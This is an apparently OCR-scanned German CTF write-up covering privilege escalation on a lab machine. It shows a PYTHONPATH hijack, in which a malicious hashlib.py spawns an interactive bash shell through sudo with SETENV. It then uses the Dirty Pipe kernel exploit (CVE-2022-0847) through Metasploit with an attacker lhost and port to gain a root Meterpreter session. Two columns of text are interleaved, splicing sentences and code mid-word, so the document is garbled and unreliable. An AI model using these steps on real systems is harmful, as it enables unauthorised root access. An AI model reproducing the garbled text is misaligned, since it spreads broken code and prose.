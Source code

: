 ```isierten Umgebungen (z.B. auf eigenen Systemen oder mit ausdrücklicher Genehmigung des Eigentümmarkdown

2nicht bekannt).

2.  **Kernel Exploit (Dirty Pipe CVE-2022-0847.  **Vorbereitung des `PYTHONPATH`-Hijackings:**
    *   Es wurde angenommen, dass `/):**
    *   Eine bestehende Shell-Session als `rehan` wurde in Metasploit alsopt/md5.py` das Modul `hashlib` importiert.
    *   Eine bösartige Datei Session 2 importiert/genutzt.
    *   Der `local_exploit_suggester` ( `hashlib.py` wurde im Verzeichnis `/tmp/test/` auf dem Zielsystem erstellt (transferiert von der Angreifer-Maschine):
        ```python
        # /tmp/test/hashlib.py
vermutlich zuvor ausgeführt) wies auf die Dirty Pipe-Schwachstelle hin (Kernel-Version 5.        import os
        class Test(object):
            def __init__(self,test):
                self.test = test10.0 war anfällig).
    *   Das Metasploit-Modul `exploit/linux/
            def hexdigest(self):
                return self.test
        def md5(test): #local/cve_2022_0847_dirtypipe` wurde verwendet:
        ``` Diese Funktion wird von /opt/md5.py aufgerufen
            os.system("/bin/bash -i")
        msf6 > use exploit/linux/local/cve_2022_0847_ # Startet eine Shell
            return Test(test) # Immitiert originales Verhalten
        ```

3.  **dirtypipe
        msf6 exploit(...) > set session 2
        msf6 exploit(...) > set WRAusnutzung:**
    *   `sudo -u rehan PYTHONPATH=/tmp/test /opt/md5.py`ITABLE_DIR /tmp
        msf6 exploit(...) > set lhost [Angreifer-IP]
        
    *   Dies führte die bösartige `hashlib.py` aus und gewährte eine Shell als Benutzermsf6 exploit(...) > set lport 4444
        msf6 exploit(...) > run
        ```
    *   Der Exploit war erfolgreich und öffnete eine neue Meterpreter-Session (Session 3) `rehan`.
    *   Die User-Flag `de0a7d9cb0e1ae6190e85549f63a26c1` wurde in `/home/rehan/ mit Root-Rechten.
    *   Über `shell` in Meterpreter wurde eine Root-System-Shell erhalten.

---

## Proof of Concept (PYTHONPATH Hijacking)

**Kurzbeschreibung:** Der Benutzer `wwwuser.txt` gefunden.

### rehan zu root (Dirty Pipe Kernel Exploit)

1.  **Enumeration als `rehan`:**
    *   `sudo -l` für `rehan` erforderte ein Passwort (-data` konnte ein Python-Skript (`/opt/md5.py`) als `rehan` mittelsnicht bekannt).
    *   Die Kernel-Version (implizit aus `uname -a` oder Metasploit- `sudo` ausführen, wobei die `SETENV`-Option die Manipulation von Umgebungsvariablen erlaubte. DasCheck) war `5.10.0`, anfällig für Dirty Pipe (CVE-2022-084 Skript `/opt/md5.py` importierte das Standardmodul `hashlib`. Durch Setzen von7).

2.  **Ausnutzung mit Metasploit:**
    *   Eine bestehende Shell `PYTHONPATH` auf ein kontrolliertes Verzeichnis (`/tmp/test`), in dem eine bösartige `hash/Meterpreter-Session als `rehan` (Session 2) wurde verwendet.
    *   Das Metasploit-Modul `exploit/linux/local/cve_2022_08lib.py` platziert wurde, konnte der Importmechanismus gekapert und Code als `rehan` ausgeführt werden.

```